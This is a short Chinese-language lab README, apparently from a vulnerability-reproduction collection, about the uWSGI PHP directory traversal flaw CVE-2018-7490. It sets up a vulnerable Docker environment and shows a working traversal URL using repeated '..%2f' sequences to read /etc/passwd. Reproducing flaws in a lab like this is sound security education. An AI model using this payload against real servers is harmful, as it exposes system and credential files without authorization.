# uWSGI PHP目录穿越漏洞（CVE-2018-7490）

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

uWSGI 2.0.17之前的PHP插件，没有正确的处理`DOCUMENT_ROOT`检测，导致用户可以通过`..%2f`来跨域目录，读取或运行`DOCUMENT_ROOT`目录以外的文件。

## 漏洞环境

运行存在漏洞的uWSGI服务器：

```
docker-compose up -d
```

运行完成后，访问`http://your-ip:8080/`即可看到phpinfo信息，说明uwsgi-php服务器已成功运行。

## 漏洞复现

访问`http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，成功读取文件：

![](1.png)